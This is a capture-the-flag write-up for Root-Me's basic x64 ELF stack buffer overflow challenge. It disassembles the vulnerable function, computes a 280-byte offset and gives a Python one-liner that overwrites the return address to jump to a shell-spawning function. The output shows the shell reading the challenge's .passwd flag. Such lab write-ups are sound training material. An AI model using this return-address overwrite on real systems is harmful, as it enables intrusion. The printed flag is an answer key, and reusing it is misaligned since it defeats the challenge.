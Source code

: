 # ELF x64 - Stack buffer overflow - basic
https://www.root-me.org/en/Challenges/App-System/ELF-x64-Stack-buffer-overflow-basic
```
Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 Yes 
NX 	Non-Executable Stack 	                 Yes 
ASLR 	Address Space Layout Randomization 	 Yes 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge03.root-me.org
Protocol	SSH
Port	        2223
SSH access 	ssh -p 2223 app-systeme-ch35@challenge03.root-me.org   
Username	app-systeme-ch35
Password	app-systeme-ch35
```
Let's reverse the assembly abit:
```asm
   0x0000000000400628 <+0>:	push   rbp
   0x0000000000400629 <+1>:	mov    rbp,rsp
   0x000000000040062c <+4>:	sub    rsp,0x120
   0x0000000000400633 <+11>:	mov    DWORD PTR [rbp-0x114],edi
   0x0000000000400639 <+17>:	mov    QWORD PTR [rbp-0x120],rsi
   0x0000000000400640 <+24>:	lea    rax,[rbp-0x110]
   0x0000000000400647 <+31>:	mov    rsi,rax
   0x000000000040064a <+34>:	lea    rdi,[rip+0xd0]        # 0x400721
   0x0000000000400651 <+41>:	mov    eax,0x0
   0x0000000000400656 <+46>:	call   0x4004f0 <__isoc99_scanf@plt>
   0x000000000040065b <+51>:	lea    rax,[rbp-0x110]
   0x0000000000400662 <+58>:	mov    rdi,rax
   0x0000000000400665 <+61>:	call   0x4004c0 <strlen@plt>
   0x000000000040066a <+66>:	mov    DWORD PTR [rbp-0x4],eax
   0x000000000040066d <+69>:	lea    rax,[rbp-0x110]
   0x0000000000400674 <+76>:	mov    rsi,rax
   0x0000000000400677 <+79>:	lea    rdi,[rip+0xa6]        # 0x400724
   0x000000000040067e <+86>:	mov    eax,0x0
   0x0000000000400683 <+91>:	call   0x4004d0 <printf@plt>
   0x0000000000400688 <+96>:	mov    eax,0x0
   0x000000000040068d <+101>:	leave  
   0x000000000040068e <+102>:	ret  
```
Before the **scanf** call, there are some allocations in the stack. First, the program will allocate 288 bytes for the function.<br>
Next, it will allocate 272 bytes for the buffer (which according to the source code should only take 256 bytes).<br>
So, basically the stack should look like the following figure, just before calling the **scanf** function:

```
                        +----------------+
                        | return address |
                        +----------------+
                        |   alignment    |
                        +----------------+
                        |                |
                        |  272 bytes of  |
                        |   the buffer   |
                        |                |
                        +----------------+
```

So, basically one should write 280 bytes and then write the wanted return address (in this case, the address to **callMeMaybe**).<br>
Let's verify it:
```sh
app-systeme-ch35@challenge03:~$ python -c "print 'A'*280 + 'DDDD'" | ./ch35 
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```
Well it looks like the return address was changed (according to the segmentation fault).<br>
If we'll change the "DDDD" to the address of the **callMeMaybe** function we should get our shell:
```sh
app-systeme-ch35@challenge03:~$ cat <(python -c 'print "A"*280+"\xe7\x05\x40"+"\x00"*5') - | ./ch35
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
id
uid=1135(app-systeme-ch35) gid=1135(app-systeme-ch35) euid=1235(app-systeme-ch35-cracked) groups=1135(app-systeme-ch35),100(users)
cat .passwd
B4sicBufferOverflowExploitation
```


